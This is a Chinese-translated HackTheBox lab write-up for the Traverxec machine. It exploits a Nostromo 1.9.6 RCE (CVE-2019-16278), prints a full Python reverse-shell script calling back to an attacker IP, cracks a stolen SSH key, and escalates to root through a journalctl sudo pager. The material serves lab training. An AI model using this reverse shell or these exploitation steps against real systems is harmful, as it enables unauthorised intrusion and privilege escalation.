







# Traverxec — HackTheBox 记录

> 原文：<https://infosecwriteups.com/traverxec-hackthebox-writeup-ed58642e94d8?source=collection_archive---------0----------------------->

## Traverxec 是一款容易难度的机器，本周退役。我们通过利用 Nostromo 目录遍历/ RCE 获得初始访问权限。枚举 Nostromo 配置文件，我们知道 Nostromo 的主目录，它是作为特权用户运行的。对于 root 用户，我们利用了`journalctl`上的 sudo 特权


# 列举

像往常一样，让我们从 Nmap 扫描开始。

```
**Nmap scan report for 10.10.10.165
Host is up (0.15s latency).****PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel**
```

`**nostromo**`盒子上运行的是 1.9.6 版本。快速谷歌搜索显示，它容易受到目录遍历 RCE。

[](https://www.exploit-db.com/exploits/47837) [## 攻击性安全利用数据库档案

### nostromo 1.9.6 -远程代码执行。CVE-2019-16278。多平台远程利用

www.exploit-db.com](https://www.exploit-db.com/exploits/47837) 

```
**root@kali:~/htb/boxes/traverxec# python 47837.py -h****_____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/****Usage: cve2019-16278.py <Target_IP> <Target_Port> <Command>**
```

好的，这需要 3 个参数，IP，端口，命令。



嘣，我们有代码执行。

# 作为 www-data 的 Shell

这是我的反向 shell 代码的内容，

```
**root@kali:~/htb/boxes/traverxec# cat pythonshell.py 
import socket,subprocess,os;****s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);****s.connect(("10.10.14.31",1234));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);**
```



枚举文件系统，我们找到配置文件`nhttpd.conf`

```
www-data@traverxec:/var/nostromo/conf$ cat nhtt*
cat nhtt*
# MAIN [MANDATORY]servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html# LOGS [OPTIONAL]logpid                  logs/nhttpd.pid# SETUID [RECOMMENDED]user                    www-data# BASIC AUTHENTICATION [OPTIONAL]htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd# ALIASES [OPTIONAL]/icons                  /var/nostromo/icons# HOMEDIRS [OPTIONAL]homedirs                /home
homedirs_public         public_www
```

这里有几件有趣的事情，首先是用户名`david`和认证文件`htpasswd`以及`homedirs`。浏览文档以理解 conf 文件，

 [## 戒灵. ch

### 提示:要在此页面上快速查找您的搜索词，请按 Ctrl+F 或⌘-F (Mac)并使用查找栏。NHTTPD(8)系统…

webcache.googleusercontent.com](http://webcache.googleusercontent.com/search?q=cache:mWxM9bi5aK4J:www.nazgul.ch/dev/nostromo_man.html+&cd=1&hl=en&ct=clnk&gl=in) 

这些是我们感兴趣的线，

> 要通过 HTTP 为用户的主目录提供服务，请通过定义存储主目录的路径来启用 homedirs 选项，通常是 **/home。**
> 
> 主目录的内容处理方式与文档根目录中的目录完全相同。
> 
> 您可以通过 **homedirs_public** 选项定义一个子目录，将主目录中的访问权限限制为一个子目录。



`protected-file-area`看起来很有趣。

```
www-data@traverxec:/home/david/public_www/protected-file-area$ cat htaccess
cat .htaccess
realm David's Protected File Area. Keep out!
```

`protected-file-area`的内容



# www-data ->大卫

将`backup-ssh-identity-files.tgz`转移到我们的盒子上，它有`david`的 ssh 文件夹。私钥`id_rsa`被加密。让约翰去工作吧，他又来了。



# 大卫->根

大卫的家有单独的`bin`目录。



`server-stats.sh`在`journalctl`上有一个有趣的 sudo 命令。

> 根据 [gtfobins](https://gtfobins.github.io/gtfobins/journalctl/)
> 
> journalctl 调用默认的分页器，这个分页器可能会更少，其他函数也可能适用。

我缩小了终端的尺寸，这样它就可以调用`less`



这就是这周的内容。我希望你喜欢这篇文章。如果你喜欢这篇文章，请随意留下掌声或评论。

**Final** :我喜欢这个盒子的一点是，它不需要运行任何脚本来寻找晦涩的东西，它所需要的只是仔细的枚举，阅读文档，我认为这是任何顶级盒子的标志。

结束，

普瑞瑟姆(赛博 01:[https://twitter.com/cyber01_](https://twitter.com/PreethamBomma_)

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)